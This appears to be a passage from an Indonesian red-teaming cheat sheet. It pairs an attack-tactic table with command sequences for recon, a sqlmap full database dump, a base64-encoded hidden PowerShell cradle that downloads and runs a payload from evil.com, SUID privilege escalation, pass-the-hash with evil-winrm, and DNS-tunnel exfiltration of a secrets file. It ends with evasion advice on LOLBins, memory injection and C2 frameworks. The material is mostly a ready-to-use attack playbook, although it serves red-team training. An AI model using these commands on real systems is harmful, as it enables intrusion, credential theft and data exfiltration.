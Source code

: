 | **🔹 Taktik** | **Teknik** |
|--------------|-----------|
| 🛠️ Initial Access | Phishing, Watering Hole Attack, Exploiting Web Apps |
| 🛠️ Privilege Escalation | Kernel Exploit, Token Manipulation, Pass-the-Hash |
| 🛠️ Defense Evasion | Process Injection, Obfuscated Scripts, Rootkits |
| 🛠️ Credential Access | Keylogging, Brute-force, Stealing Password Hashes |
| 🛠️ Persistence | Registry Modification, Backdoors, Startup Manipulation |
| 🛠️ Lateral Movement | RDP Hijacking, SMB Exploitation, SSH Pivoting |
| 🛠️ Exfiltration | Data Encryption, Covert C2, DNS Tunneling |

---

## 🛠️ 4. Simulasi Red Teaming  

🔥 **1. Recon & Exploitation**  
   ```bash
   nmap -sS -Pn -A -p- target.com
   subfinder -d target.com | httpx -silent
   sqlmap -u "https://target.com/login" --dump-all
   ```
🔥 **2. Payload Injection & Evasion**  
   ```python
   import base64
   payload = "powershell -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://evil.com/payload.ps1')"
   encoded = base64.b64encode(payload.encode()).decode()
   print(encoded)
   ```
🔥 **3. Privilege Escalation (Linux SUID Exploit)**  
   ```bash
   find / -perm -u=s -type f 2>/dev/null
   ./vulnerable_binary
   ```
🔥 **4. Lateral Movement (Pass-the-Hash on Windows)**  
   ```bash
   evil-winrm -i target_ip -u Administrator -H "NTLM-HASH"
   ```
🔥 **5. Data Exfiltration via DNS Tunneling**  
   ```bash
   dns2tcp -d targetdns.com -r 53 -z secret_data.txt
   ```

---

## 🛠️ 5. Bypassing Security & Evasion  

**🔹 Teknik Menghindari Deteksi:**  
✅ **Obfuscation**: Encode payload dalam **Base64, XOR, atau AES**.  
✅ **Fileless Execution**: Menggunakan **LOLBins (Living off the Land Binaries)** seperti `mshta.exe` atau `regsvr32.exe`.  
✅ **Memory Injection**: Menjalankan shellcode langsung ke **memory tanpa menyentuh disk**.  
✅ **C2 Frameworks**: Gunakan **Cobalt Strike, Empire, atau Sliver** untuk komunikasi stealth.  
